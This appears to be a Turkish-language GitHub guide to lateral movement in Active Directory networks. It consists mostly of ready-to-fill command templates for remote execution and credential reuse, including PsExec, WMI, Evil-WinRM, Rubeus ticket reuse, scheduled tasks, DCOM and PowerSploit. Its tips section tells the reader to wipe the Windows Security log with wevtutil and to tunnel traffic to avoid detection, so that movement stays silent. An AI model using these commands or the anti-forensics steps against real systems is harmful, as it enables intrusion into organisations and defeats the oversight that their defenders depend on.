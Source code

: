 # Active Directory Lateral Movement Rehberi

Bu rehberde, Active Directory (AD) ortamlarında Lateral Movement (Yatay Hareket) safhasında kullanılan tüm yöntemler ve komutlar detaylı olarak açıklanmıştır. Her bir yöntemin ne işe yaradığı ve nasıl kullanıldığı da dahil edilmiştir.

## 1. Giriş

Lateral Movement, bir saldırganın bir kullanıcı hesabını veya sistem erişimini kullanarak ağ içinde hareket ettiği aşamadır. Bu süreç, daha yüksek ayrıcalıklara sahip sistemlere veya hassas bilgilere erişim sağlamak için kritik öneme sahiptir. AD ortamlarında Lateral Movement için çeşitli araçlar, komutlar ve teknikler kullanılır.

---

## 2. Lateral Movement Teknikleri ve Komutları

### 2.1. PsExec Kullanımı

#### `PsExec`
**Amaç:** Uzak bir sistemde komut çalıştırmak.

```cmd
PsExec.exe \\<hedef_IP> -u <kullanıcı_adı> -p <şifre> cmd
```

#### `Invoke-Command`
**Amaç:** PowerShell üzerinden uzak bir sistemde komut çalıştırmak.

```powershell
Invoke-Command -ComputerName <hedef_IP> -ScriptBlock { <komut> } -Credential <kullanıcı_adı>
```

---

### 2.2. WMI (Windows Management Instrumentation) Kullanımı

#### `wmic`
**Amaç:** WMI kullanarak uzaktaki bir sistemde komut çalıştırmak.

```cmd
wmic /node:<hedef_IP> /user:<kullanıcı_adı> process call create "<komut>"
```

#### `Invoke-WmiMethod`
**Amaç:** PowerShell kullanarak WMI üzerinden komut çalıştırmak.

```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "<komut>" -ComputerName <hedef_IP> -Credential <kullanıcı_adı>
```

---

### 2.3. Remote Desktop Protocol (RDP) Kullanımı

#### `mstsc`
**Amaç:** RDP kullanarak uzak bir sisteme bağlanmak.

```cmd
mstsc /v:<hedef_IP>
```

#### `xfreerdp`
**Amaç:** FreeRDP ile uzak bir sisteme bağlanmak.

```bash
xfreerdp /u:<kullanıcı_adı> /p:<şifre> /v:<hedef_IP>
```

---

### 2.4. SMB Üzerinden Hareket

#### `net use`
**Amaç:** SMB paylaşımına bağlanmak.

```cmd
net use \\\\<hedef_IP>\C$ /user:<kullanıcı_adı> <şifre>
```

#### `Impacket-Psexec`
**Amaç:** SMB kullanarak uzak sistemde komut çalıştırmak.

```bash
python3 psexec.py <domain>/<kullanıcı_adı>:<şifre>@<hedef_IP>
```

---

### 2.5. WinRM (Windows Remote Management) Kullanımı

#### `Evil-WinRM`
**Amaç:** WinRM kullanarak hedef sistemde shell almak.

```bash
evil-winrm -i <hedef_IP> -u <kullanıcı_adı> -p <şifre>
```

#### `Invoke-Command`
**Amaç:** WinRM üzerinden PowerShell komutları çalıştırmak.

```powershell
Invoke-Command -ComputerName <hedef_IP> -Credential <kullanıcı_adı> -ScriptBlock { <komut> }
```

---

### 2.6. Kerberos Delegasyonu ve Pass-The-Ticket

#### `Rubeus` (Kerberos Bilet Yönetimi)
**Amaç:** Kerberos biletlerini dump etmek ve yeniden kullanmak.

```bash
Rubeus.exe tgtdeleg /ticket:<base64_bilet>
```

#### `klist`
**Amaç:** Kerberos biletlerini görüntülemek.

```cmd
klist
```

---

### 2.7. Scheduled Tasks Kullanımı

#### `schtasks`
**Amaç:** Uzak sistemde zamanlanmış görev oluşturmak.

```cmd
schtasks /create /s <hedef_IP> /u <kullanıcı_adı> /p <şifre> /tn <görev_adı> /tr "<komut>" /sc once /st <zaman>
```

#### `Invoke-ScheduledTask`
**Amaç:** PowerShell kullanarak zamanlanmış görev çalıştırmak.

```powershell
Invoke-ScheduledTask -TaskName <görev_adı> -ComputerName <hedef_IP>
```

---

### 2.8. PowerShell Remoting

#### `Enable-PSRemoting`
**Amaç:** PowerShell Remoting özelliğini etkinleştirmek.

```powershell
Enable-PSRemoting -Force
```

#### `Enter-PSSession`
**Amaç:** Hedef sisteme PowerShell oturumu başlatmak.

```powershell
Enter-PSSession -ComputerName <hedef_IP> -Credential <kullanıcı_adı>
```

---

### 2.9. DCOM (Distributed Component Object Model) Kullanımı

#### `MMC20.Application`
**Amaç:** DCOM kullanarak uzak sistemde komut çalıştırmak.

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "<hedef_IP>"))
$com.Document.ActiveView.ExecuteShellCommand("<komut>", $null, $null, "7")
```

---

### 2.10. PowerSploit ve Nishang Kullanımı

#### PowerSploit `Invoke-SMBExec`
**Amaç:** SMB üzerinden komut çalıştırmak.

```powershell
Invoke-SMBExec -Target <hedef_IP> -Command "<komut>" -Credential <kullanıcı_adı>
```

#### Nishang `Invoke-WMIExec`
**Amaç:** WMI üzerinden komut çalıştırmak.

```powershell
Invoke-WMIExec -Target <hedef_IP> -Command "<komut>" -Credential <kullanıcı_adı>
```

---

## 3. Öneriler ve İpuçları

1. **Logları Temizle:** Hedef sistemdeki hareketlerinizi gizlemek için logları temizlemeyi unutmayın.
   ```cmd
   wevtutil cl Security
   ```
2. **Kimlik Bilgilerini Güvende Tutun:** Kullanılan kimlik bilgilerini kimseyle paylaşmayın ve güvenli bir yerde saklayın.
3. **Network İzlemeyi Kullanın:** Ağ trafiğini izleyerek hareketlerinizin tespit edilmesini önlemek için proxy veya tünelleme araçlarını kullanın.

---

## 4. Sonuç

Bu rehber, Active Directory ortamlarında Lateral Movement safhasında kullanılan en popüler yöntem ve araçları kapsamaktadır. Doğru araçları ve komutları seçmek, ağ içinde sessiz ve etkili bir şekilde hareket etmenizi sağlayacaktır.
